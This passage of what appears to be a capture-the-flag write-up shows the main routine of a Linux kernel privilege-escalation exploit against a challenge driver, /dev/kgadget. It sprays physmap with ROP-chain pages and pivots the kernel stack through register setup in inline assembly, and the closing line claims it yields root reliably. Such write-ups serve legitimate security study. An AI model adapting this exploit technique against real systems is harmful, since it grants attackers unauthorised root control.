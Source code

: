 ```c
}

int main(int argc, char **argv, char **envp)
{
    saveStatus();

    dev_fd = open("/dev/kgadget", O_RDWR);
    if (dev_fd < 0)
        errExit("dev fd!");

    page_size = sysconf(_SC_PAGESIZE);

    // construct per-page rop chain
    physmap_spray_arr[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    constructROPChain(physmap_spray_arr[0]);

    // spray physmap, so that we can easily hit one of them
    puts("[*] Spraying physmap...");
    for (int i = 1; i < 15000; i++)
    {
        physmap_spray_arr[i] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        if (!physmap_spray_arr[i])
            errExit("oom for physmap spray!");
        memcpy(physmap_spray_arr[i], physmap_spray_arr[0], page_size);
    }

    puts("[*] trigger physmap one_gadget...");
    //sleep(5);

    try_hit = 0xffff888000000000 + 0x7000000;
    __asm__(
        "mov r15,   0xbeefdead;"
        "mov r14,   0x11111111;"
        "mov r13,   0x22222222;"
        "mov r12,   0x33333333;"
        "mov rbp,   0x44444444;"
        "mov rbx,   0x55555555;"
        "mov r11,   0x66666666;"
        "mov r10,   0x77777777;"
        "mov r9,    pop_rsp_ret;"   // stack migration again
        "mov r8,    try_hit;"
        "mov rax,   0x10;"
        "mov rcx,   0xaaaaaaaa;"
        "mov rdx,   try_hit;"
        "mov rsi,   0x1bf52;"
        "mov rdi,   dev_fd;"
        "syscall"
    );
}
```

运行即可稳定提权

![image.png](https://s2.loli.net/2022/05/07/HdjzW6RvGfOtqPk.png)